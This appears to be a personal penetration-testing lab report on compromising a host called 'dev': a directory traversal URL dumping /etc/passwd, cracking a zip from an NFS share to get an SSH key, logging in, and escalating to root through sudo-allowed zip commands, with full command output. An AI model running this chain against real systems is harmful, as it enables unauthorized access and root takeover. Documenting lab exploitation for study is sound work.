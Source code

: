 ```yaml
---
aliases: 
tags:
  - tech
  - cybsec
  - penetration_testing
  - report
author: Mehdi N Tehrani
creat_date: 2023-12-04
category: Cyber Security
subcategory: Penetration Testing - Report
---
```


# directory traversal (Local File Inclusion)
#local_file_inclusion #directory_traversal
[Exploit details - exploit-db.com](https://www.exploit-db.com/exploits/48411)

http://192.168.57.10:8080/dev/index.php?p=action.search&action=../../../../../../../etc/passwd
```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:101:102:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
systemd-network:x:102:103:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:103:104:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:104:110::/nonexistent:/usr/sbin/nologin
sshd:x:105:65534::/run/sshd:/usr/sbin/nologin
jeanpaul:x:1000:1000:jeanpaul,,,:/home/jeanpaul:/bin/bash
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
mysql:x:106:113:MySQL Server,,,:/nonexistent:/bin/false
_rpc:x:107:65534::/run/rpcbind:/usr/sbin/nologin
statd:x:108:65534::/var/lib/nfs:/usr/sbin/nologin
```

# nfs share
save.zip file in the nfs share 
```
$ fcrackzip -v -u -D -p /usr/share/wordlists/rockyou.txt save.zip
found file 'id_rsa', (size cp/uc   1435/  1876, flags 9, chk 2a0d)
found file 'todo.txt', (size cp/uc    138/   164, flags 9, chk 2aa1)


PASSWORD FOUND!!!!: pw == java101
```

# save.zip contents
- `id_rsa`: use for ssh

# ssh
`$ ssh jeanpaul@192.168.57.10 -i ./id_rsa`
Successful log in

```
$ who
jeanpaul pts/0        2023-12-05 02:30 (192.168.57.4)

$ whoami
jeanpaul

$ history

$ id
uid=1000(jeanpaul) gid=1000(jeanpaul) groups=1000(jeanpaul),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev)

$ groups
jeanpaul cdrom floppy audio dip video plugdev netdev

$ sudo -l
Matching Defaults entries for jeanpaul on dev:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User jeanpaul may run the following commands on dev:
    (root) NOPASSWD: /usr/bin/zip

$ umask
0022
```


# zip exploit
#zip_exploit 
https://gtfobins.github.io
https://www.hackingarticles.in/linux-for-pentester-zip-privilege-escalation/

Given:
```
$ sudo -l
Matching Defaults entries for jeanpaul on dev:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User jeanpaul may run the following commands on dev:
    (root) NOPASSWD: /usr/bin/zip
```

*jeanpaul* user can run *root* commands using zip:
```
$ echo 'blank!' > 1.txt
$ sudo zip 1.zip 1.txt -T --unzip-command="sh -c /bin/bash"
  adding: 1.txt (stored 0%)
root@dev:/home/jeanpaul#
```

Another technique from [gtfobins](https://gtfobins.github.io)
```
TF = $(mktemp -u)
sudo zip $TF /etc/hostname -T -TT 'sh #'
sudo rm $TF
```

```
jeanpaul@dev:~$ sudo zip $TF /etc/hostname -T -TT 'sh #'
  adding: etc/hostname (stored 0%)
# id
uid=0(root) gid=0(root) groups=0(root)
# sudo -l
Matching Defaults entries for root on dev:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User root may run the following commands on dev:
    (ALL : ALL) ALL
# hostname
dev
# date
```

